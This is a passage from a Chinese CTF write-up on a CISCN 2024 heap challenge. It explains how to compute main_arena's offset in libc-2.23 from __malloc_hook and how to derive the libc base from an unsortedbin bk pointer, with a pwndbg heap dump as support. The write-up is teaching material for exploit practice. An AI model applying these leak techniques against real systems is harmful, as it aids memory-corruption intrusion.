 ![](ciscn2024-初赛-wp/malloc_hook_and_main_arena.png)


```python
main_arena_offset = ELF("libc-2.23.so").symbols["__malloc_hook"] + 0x10
```

利用这两种方法之一，便可以算出main_arena在libc中的偏移了，得出偏移为0x3C4B20
再获取bk和main_arena的偏移，即可计算libc_base

#### 计算bk与main_arena的偏移
可以直接调试获取
```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x6549ce9b1000
Size: 0x71

Allocated chunk | PREV_INUSE
Addr: 0x6549ce9b1070
Size: 0x21

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x6549ce9b1090
Size: 0xf51
fd: 0x7e344694bb78
bk: 0x7e344694bb78

Allocated chunk
Addr: 0x6549ce9b1fe0
Size: 0x10

Allocated chunk | PREV_INUSE
Addr: 0x6549ce9b1ff0
Size: 0x11

Allocated chunk
Addr: 0x6549ce9b2000
Size: 0x00

pwndbg> x/10gx 0x6549ce9b1070
0x6549ce9b1070: 0x6161616161616161      0x0000000000000021
```